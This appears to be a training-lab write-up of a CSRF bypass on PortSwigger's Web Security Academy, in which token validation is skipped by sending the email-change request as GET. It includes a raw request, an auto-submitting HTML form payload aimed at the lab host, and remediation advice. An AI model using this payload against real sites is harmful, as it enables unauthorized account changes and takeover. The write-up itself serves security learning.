


# 🕸️ CSRF where token validation depends on request method

> 🔐 Attack Type: CSRF (Method Bypass)

**Platform:** PortSwigger  
**Category:** Cross-Site Request Forgery (CSRF)  
**Severity:** Medium  

## 🧾 Summary

Bypassed CSRF protection by switching the request method from `POST` to `GET`, allowing unauthorized email change without a valid CSRF token.

## 🧨 Vulnerability

CSRF token bypass in email change functionality

- **Endpoint:** `GET /my-account/change-email`
- **Cause:** CSRF token validation is only enforced for `POST` requests

## ⚡ Impact

Attacker can perform unauthorized state-changing actions on behalf of a victim -> account modification (email change) and potential account takeover.

## 🛠️ Exploit

- Captured `POST` request using Burp Suite
- Converted request method from `POST` to `GET`
- Removed CSRF token from the request
- Verified server still processed the request
- Observed successful email update via `302` redirect
````http
GET /my-account/change-email?email=test-csrf@test.com HTTP/2
````

## 💥 Payload
````html
<form action="https://<lab_id>.web-security-academy.net/my-account/change-email" method="GET">
    <input name="email" type="hidden" value="test-csrf@test.com">
</form>
<script>
    document.forms[0].submit();
</script>
````

## 📸 Evidence

* **Expected Behavior:**



* **The Hack:**



## 🛡️ Fix

- Enforce CSRF validation for all state-changing requests
- Restrict sensitive endpoints to `POST` only and reject `GET` requests
- Use framework-provided CSRF protection mechanisms